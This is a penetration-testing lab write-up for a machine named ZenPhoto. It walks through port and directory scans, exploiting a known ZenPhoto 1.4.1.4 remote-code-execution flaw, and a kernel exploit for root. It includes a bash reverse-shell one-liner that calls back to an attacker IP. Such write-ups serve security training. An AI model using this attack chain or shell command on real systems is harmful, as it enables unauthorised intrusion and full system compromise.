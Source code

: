 # ZenPhoto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.175.41 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:19 +08
Nmap scan report for 192.168.175.41
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```

Of all things, Telnet is open.&#x20;

### Web Enum --> ZenPhoto RCE

Port 80 just shows this:

<figure><img src="../../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>

A `gobuster` scan reveals the following directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.175.41/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.175.41/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/01 20:22:15 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 75]
/test                 (Status: 301) [Size: 315] [--> http://192.168.175.41/test/]
```

Visiting `/test` reveals a ZenPhoto instance:

<figure><img src="../../../.gitbook/assets/image (3137).png" alt=""><figcaption></figcaption></figure>

Viewing the page source reveals the version of ZenPhoto that is running:

<figure><img src="../../../.gitbook/assets/image (1513).png" alt=""><figcaption></figcaption></figure>

There are RCE exploits available for this instance:

```
$ searchsploit zenphoto 1.4.1.4
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Ex | php/webapps/18083.php
----------------------------------------------------------- ---------------------------------
```

This exploits works in getting me a webshell:

<figure><img src="../../../.gitbook/assets/image (2066).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell using this one-liner:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.164/4444 0>&1'
```

<figure><img src="../../../.gitbook/assets/image (542).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kernel Exploit --> Root

This machine was running on a really old Linux kernel version:

```
www-data@offsecsrv:/home$ uname -a
Linux offsecsrv 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
```

There are quite a few exploits that might work for this version of Linux running. I used this one:

{% embed url="https://www.exploit-db.com/exploits/15704" %}

Compile it on the machine itself using `gcc exploit.c -o exploit`. Then, run it to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (3840).png" alt=""><figcaption></figcaption></figure>

Rooted!

